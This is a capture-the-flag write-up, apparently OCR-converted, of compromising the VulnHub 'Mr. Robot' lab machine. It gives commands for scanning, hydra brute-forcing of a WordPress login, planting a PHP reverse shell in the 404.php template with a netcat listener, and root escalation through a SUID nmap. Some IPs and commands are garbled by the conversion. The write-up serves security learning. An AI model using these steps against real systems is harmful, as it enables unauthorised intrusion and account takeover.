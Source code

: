 # Write-Up

# VulnHub: Mr. Robot

# Enumeration

I scanned my network using netdiscover to find the IP of the machine.

```
#netdiscover - r 192.168.100.0/
```
![1](images/1.png)

Looking at that list, i found that the ip is 192.168.100.

After finding the IP, i ran nmap to gather some infos regarding the ports and
running services

```
#nmap -sV 192.168.100.1 73
```
![2](images/2.png)

After that, I ran dirsearch to list out the potential hidden directories. I exclude
code 404 and 403 using -x to reduce unnecesary results.

```
#dirsearch -x 404,403 -u 192.168.100.
```

While waiting dirsearch to finish, i tried to find some common directories
manually.
![3](images/3.png)

I found out that the page is running wordpress, and i found something
interesting on robots.txt
![4](images/4.png)

I tried accessing key- 1 - of-3.txt and it gave me the first part of the flag

```
073403c8a58a1f80d943455fb30724b
```
![5](images/5.png)

The other interesting found which is fsocity.dic turns out to be a wordlist. After
checking it, I found that it has multiple duplicate entries which is redundant and
makes bruteforcing longer, so I decided to fix it.

```
#sort fsocity.dic | uniq > fsocity.uniq
```
At this point, the dirsearch are finished and its confirming my found that the
page is running wordpress
![6](images/6.png)

## Bruteforcing
![7](images/7.png)

I went to the admin login page, and after failing some random common defaults
user-password trials, I decided to bruteforce it using hydra and using the
wordlist I found from robots.txt

To start a bruteforce using hydra, i have to check first what are the parameters
from the form are named.
![8](images/8.png)

As for the hydra, here’s the command. A bit of explanation: -f is used so when
the right username is found, the hydra will exit. -vV is for verbose to show the
attempted passwords/username.

```
#hydra -L fsocity.uniq -p test123 -f -vV 192.168.100.173 http-post-form “/wp-
login.php:log=^USER&pwd=^PASS^&wp-submit=Log+In:F=Username invalid”
```
![9](images/9.png)

After running for about 5 minutes, i found a valid username which is elliot. Now
im gonna try to enumerate the password using that username.

```
#hydra -l elliot -P fsocity.uniq -f -vV 192.168.100.173 http-post-form “/wp-
login.php:log=^USER&pwd=^PASS^&wp-submit=Log+In:F=Username invalid”
```
![10](images/10.png)

Password found, now time to login into the admin dashboard.

## Gaining reverse shell

Im gonna edit the 404.php template to make it a php reverse shell using one of
the script from /usr/share/webshells.
![11](images/11.png)
![12](images/12.png)

Don’t forget to change the ip and port to the listening maching.

Before calling the reverse shell, don’t forget to set up a listener, here iam using
netcat

```
#nc -lnvp 4444
```
![13](images/13.png)

And we got a shell.

Here im gonna upgrade the shell using python so we can get the more
interactive one using

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![14](images/14.png)

## Privesc: robot

After looking around I found a user named robot and inside I found the second
flag which apparently only accessible to robot and a password hashed with md5.

![15](images/15.png)

I went to a hash cracker online and cracked the password
![16](images/16.png)

I tried to login to the user robot using that password, and apparently i succeeded
and able to retrieve the second flag
![17](images/17.png)

## Privesc: root

After goofing around for a while, i found that nmap has a set SUID.
![18](images/18.png)

```
#find / -perm -u=s -type f 2>/dev/null
```

I went to gtfobins but i don’t find a way to privesc using the provided
exploitation, so i search somewhere else and found about the option nmap has
which is ‘ _--interactive_ ’ which can give me a prolonged shell as root provided the
SUID bit are set.

```
#nmap --interactive
#!sh
```
![19](images/19.png)
![20](images/20.png)

Flag 3 retrieved, machine pwned!


